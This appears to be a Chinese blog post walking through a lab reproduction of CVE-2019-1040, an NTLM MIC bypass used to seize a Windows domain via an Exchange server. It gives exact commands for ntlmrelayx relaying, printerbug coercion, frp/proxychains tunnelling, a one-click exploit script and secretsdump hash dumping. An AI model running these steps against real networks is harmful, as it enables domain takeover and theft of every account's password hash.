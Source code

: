 ```yaml
---
title: "Cve 2019 1040 Intranet Killer"
date: 2020-03-28T11:53:53+08:00
draft: flase
tags: [域渗透]
categories: [内网渗透]
comment: true
---
```

 CVE-2019-1040内网大杀器利用
<!--more-->

# CVE-2019-1040内网大杀器利用

- 前言

前两天闲来无事重新在虚拟机搭建了一个域环境，装上了EXCHANGE2013版本，于是想着顺便复现一下大杀器。

- 背景描述：

此漏洞在exchange_RCE未出现前是域内大杀器，此漏洞可运用于已有域账户但是exchange已修补rce漏洞情况下展开攻击。2019年6月12日，微软官方在6月的补丁日中发布了漏洞 CVE-2019-1040的安全补丁，攻击者可以利用该漏洞绕过NTLM MIC（消息完整性检查）。攻击者可以修改NTLM身份验证流程中的签名要求，完全删除签名验证，并尝试中继到目标服务器，不强制执行签名的服务器都易受到攻击。通过这种攻击能使攻击者在仅有一个普通域账号的情况下可远程控制 Windows 域内的任何机器，包括域控服务器。
	
- 漏洞利用条件

1.已有域成员账号密码，存在一台exchange服务
2.已有域成员账号密码，目标域内存在两个域。
3.**这里仅演示exchange**

- 漏洞细节

用任何AD帐户，通过SMB连接到目标Exchange服务器，并触发SpoolService错误。目标服务器将通过SMB回连至攻击者主机，使用ntlmrelayx将SMB身份验证中继到LDAP。使用中继的LDAP身份验证，为攻击者帐户授予DCSync权限。攻击者帐户使用DCSync转储AD中的所有密码哈希值。

- 环境搭建

```
DC（exchange）192.168.1.104
Windows7 域内机器 192.168.1.102
Atttcker:Mac 192.168.1.100
```

## 漏洞利用过程

### 关闭445端口

**因为内网有时不具有攻击工具的完整条件，所以需要进行代理**

- 修改注册表

**新增名为SMBDeviceEnabled，值为0（默认为0）**

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\NetBT\Parameters
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200313140457.png)

- 禁用server服务

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200313141000.png)

- 重启计算机查看445端口

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200313141243.png)

### 漏洞利用

- VPS搭建frp代理服务端

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327162506.png)

- Win7搭建代理隧道

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327162700.png)

- Atttcker proxychains4

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327162820.png)

- ntlmrelayx.py进行中继攻击

>执行ntlmrelayx.py脚本进行NTLM中继攻击，设置SMB服务器并将认证凭据中继到LDAP协议。其中–remove-mic选项用于清除MIC标志，–escalate-user用于提升指定用户权限

```
proxychains4 python ntlmrelayx.py --escalate-user WIN7User -t ldap://AD.syst1m.local -smb2support --remove-mic --delegate-access
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327163009.png)

- Win7搭建代理隧道

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327163108.png)

- Atttcker frpc配置

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327163146.png)

- Proxifier添加隧道，代理frpc

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200313152252.png)

- Atttcker 启动 frpc

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327172910.png)

- printerbug.py脚本

>触发SpoolService的bug

```
python printerbug.py 域/用户名:密码@打印机服务ip 回连ip
```
```
proxychains4 python printerbug.py syst1m.local/WIN7User:win7user521.@192.168.1.104 192.168.1.102
```

**SpoolService的bug导致Exchange服务器回连到ntlmrelayx.py，即将认证信息发送到ntlmrelayx.py**

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327183658.png)

- ntlmrelayx.py结果

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327200545.png)

**secretsdump.py去dcsync**

- secretsdump

```
proxychains4 secretsdump.py syst1m.local/WIN7User@syst1m.local -just-dc
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327173405.png)

#### CVE-2019-1040一键化脚本

**来自evi1cg师傅写的利用工具**

```
https://github.com/Ridter/CVE-2019-1040
```

- 使用方式

```
python CVE-2019-1040.py -ah 192.168.1.100 -u 'WIN7User' -p 'win7user521.' -d 'syst1m.local' -th 192.168.1.103 192.168.1.104
```

- 漏洞利用

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200327164746.png)

### 参考

```
https://github.com/Ridter/CVE-2019-1040
https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/
```